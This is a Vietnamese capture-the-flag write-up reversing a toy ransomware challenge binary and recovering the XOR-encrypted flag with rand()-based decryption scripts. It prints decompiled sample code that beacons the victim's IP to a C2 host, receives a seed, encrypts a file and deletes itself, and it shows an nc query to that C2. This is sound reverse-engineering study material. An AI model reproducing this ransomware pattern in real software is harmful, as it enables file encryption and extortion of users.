 # Challenge

<p align="center">
  <img src="./wanna1.png" alt="Entry point"/>
</p>

# File: [wannasigh++.elf](./wannasigh++.elf) [your-flag.ransomed](./your-flag.ransomed)

# Solution:

```bash
┌──(nguyenguyen753㉿kali)-[~/CTF/wpictf/wannaSigh]
└─$ file wannasigh++.elf 
wannasigh++.elf: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=58e49acb6fec47ab8873a7c2a24c9834ce838c0d, for GNU/Linux 3.2.0, not stripped
```

Nhìn có vẻ bình thường, mình tiếp tục bằng cách dùng ghidra xem sơ qua đoạn chương trình:

```c++
undefined8 main(void)

{
  char cVar1;
  uint16_t uVar2;
  int iVar3;
  ssize_t sVar4;
  long in_FS_OFFSET;
  int local_188;
  int local_184;
  undefined4 local_180;
  undefined4 local_17c;
  char *local_178;
  hostent *local_170;
  undefined8 local_168;
  undefined8 local_160;
  undefined8 local_158;
  undefined8 local_150;
  undefined local_148;
  undefined8 local_138;
  undefined8 local_130;
  undefined4 local_128;
  undefined2 local_124;
  undefined local_122;
  undefined local_118 [264];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_158 = 0x79646165726c412e;
  local_150 = 0x65706f6e2e6e6152;
  local_148 = 0;
  cVar1 = exists((char *)&local_158);
  if (cVar1 != '\x01') {
    system("touch .AlreadyRan.nope");
    local_178 = (char *)malloc(0xf);
    getIPStr(local_178);
    local_138 = 0x5f68686868616142;
    local_130 = 0;
    local_128 = 0;
    local_124 = 0;
    local_122 = 0;
    strcat((char *)&local_138,local_178);
    free(local_178);
    local_184 = socket(2,1,0);
    local_180 = 0x48b2;
    local_170 = gethostbyname("wannasigh109fn10fn48vh.wpictf.xyz");
    local_160 = 0;
    local_168 = 2;
    memmove((void *)((long)&local_168 + 4),*local_170->h_addr_list,(long)local_170->h_length);
    uVar2 = htons((uint16_t)local_180);
    local_168._0_4_ = CONCAT22(uVar2,(sa_family_t)local_168);
    local_168 = local_168 & 0xffffffff00000000 | (ulong)(uint)local_168;
    iVar3 = connect(local_184,(sockaddr *)&local_168,0x10);
    if (iVar3 != 0) {
      printf("The WannaSigh++ C2 server appears to be down.");
    }
    sVar4 = write(local_184,&local_138,0x17);
    local_17c = (undefined4)sVar4;
    local_138 = 0;
    local_130 = 0;
    local_128 = 0;
    local_124 = 0;
    local_122 = 0;
    sVar4 = read(local_184,local_118,0x100);
    local_17c = (undefined4)sVar4;
    close(local_184);
    local_188 = 0x2a;
    __isoc99_sscanf(local_118,&DAT_00102076,&local_188);
    encrypt(local_188);
    display();
  }
  system("rm -f wannasigh++.elf");
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

Hàm `encrypt()` có vẻ khá thú vị, ta xem thử hàm này:

<p align="center">
  <img src="./wanna2.png" alt="Entry point"/>
</p>

Tới đây ta đã hiểu cách mã hoá của hàm: đọc plaintext trong file `flag.txt`, sau đó lấy các số trong hàm `rand()` dựa trên `seed` được truyền vô hàm, sau đó đem `xor` từng kí tự trong plaintext với các số từ hàm `rand()`, sau đó ciphertext sẽ được ghi vào file `your-flag.ransomed`. Từ đây ta lần tham số được truyền vào hàm `srand()`, cũng như là `seed`.  
Để lần được `seed`, ta xem phải xem lại đoạn chương trình trước đó

<p align="center">
  <img src="./wanna3.png" alt="Entry point"/>
</p>

Mình nhìn sơ hàm `getIPStr()`:

<p align="center">
  <img src="./wanna4.png" alt="Entry point"/>
</p>

Kết hợp với debug, mình rút ra một vài thứ từ đoạn chương trình trên:
  - Hàm `getIPStr()` có mục đích lấy IPv4 của máy tính mình bằng hàm `curl -s https://bot.whatismyipaddress.com`
  - Sau khi có địa chỉ IPv4 của máy tính mình, đoạn chương trình tiếp theo sẽ kết nối với host `wannasigh109fn10fn48vh.wpictf.xyz` thông qua port `0x48b2` hay `18610`, sau đó truyền chuỗi `Baahhhh_ + IPv4`, trong đó `IPv4` là IPv4 của máy tính cá nhân của mình. Sau đó hàm sẽ trả về một số, và số đó chính là seed

<p align="center">
  <img src="./wanna5.png" alt="Entry point"/>
</p>

```bash
┌──(nguyenguyen753㉿kali)-[~/CTF/wpictf/wannaSigh]
└─$ nc wannasigh109fn10fn48vh.wpictf.xyz 18610      
Baahhhh_xx.xxx.xxx.xxx
1618617746
```

Từ đó mình sẽ viết script để có thể tìm flag từ file `your-flag.ransomed`:

# random.c
```c
#include <stdio.h>
#include <stdlib.h>

int main() {
	srand(1618617746);
	for (int i=0; i<104; i++)
		printf("%d, ", rand());
}
```

# script.py
```python
f = open('encFlag', 'rb')
a = [i for i in f.readlines()[0]]

b = [896477183, 955207521, 24321907, 464893680, 1683277536, 1610985375, 1184200633, 1364516228, 985992837, 1507220167, 1156534586, 1811523396, 1923681696, 1530304704, 516114307, 1796450039, 242833060, 1805362011, 194104249, 2136184217, 953565787, 2016360961, 513989520, 141054934, 273597823, 366860163, 650686429, 353902088, 452966047, 96162748, 1266435010, 1349443231, 1051370269, 1290756918, 1814336911, 587164157, 754258645, 851053896, 1951680385, 1740251482, 210790416, 960731323, 1404291230, 2134472112, 343552380, 1920405537, 1783438503, 586385440, 1578283900, 1977542752, 575086009, 384366040, 1846420066, 1089075529, 525420974, 2120017889, 1455935692, 1176107403, 326436330, 1908901740, 1272270151, 1592871340, 1110861323, 176156772, 736144610, 777714586, 763320929, 1490403255, 1628768482, 567517666, 1083171090, 1839558898, 1528248990, 339978672, 1826547363, 1871801370, 112900562, 1462502218, 310703162, 1691184462, 1292561323, 885789171, 2075550502, 991497741, 1974864700, 453487828, 964031982, 1283316744, 1629595232, 1290468312, 1044734836, 754381735, 735856005, 8112511, 930538508, 1472000615, 785827097, 1693859437, 814920223, 267111932, 113893456, 1898091313, 2106670830, 1642142446]
randoms = [(i & 255) for i in b]

for i in range(len(a)):
	char = a[i] ^ randoms[i]
	print(chr(char), end ="")
```

`WPI{backup-your-files}`

# Rethinking
Bài này mình có 2 chỗ tới giờ mình vẫn chưa hiểu, mong các cao nhân có thể giúp mình hoàn thiện hơn =(((
  - Nếu để ý trong chương trình ta có đoạn chương trình nhỏ thế này:

<p align="center">
  <img src="./wanna6.png" alt="Entry point"/>
</p>

  Ngay khúc này, mình thực sự thắc mắc là `seed` truyền vô chắc chắn là `0x2a`, nhưng khi debug <i>lần đầu tiên</i>, mình lại ra một kết quả khác là `0x607a2592`, cũng chính là số mà server sẽ trả về cho mình
  - Mục đích mình in nghiêng cụm từ `lần đầu tiên` là vì khi mình debug lại chương trình, mình phát hiện ra rằng khi gửi request lên server lần thứ 2 liên tiếp trở đi, mình nhận một kết quả hoàn toàn khác so với lần đầu:

<p align="center">
  <img src="./wanna7.png" alt="Entry point"/>
</p>

  Mình phải chờ một khoảng thời gian lâu sau đó thì mình mới có thể nhận lại kết quả ban đầu, cũng là con số `seed` mình nhận được lúc đầu tiên. Lúc này mình thắc mắc là do bên server nó cố tình code như thế, hay là do mình đã chưa hiểu gì đó về mấy cái mạng network này @@, hoặc có thể có đoạn nào đó trong bin mình đã đọc chưa kĩ =((((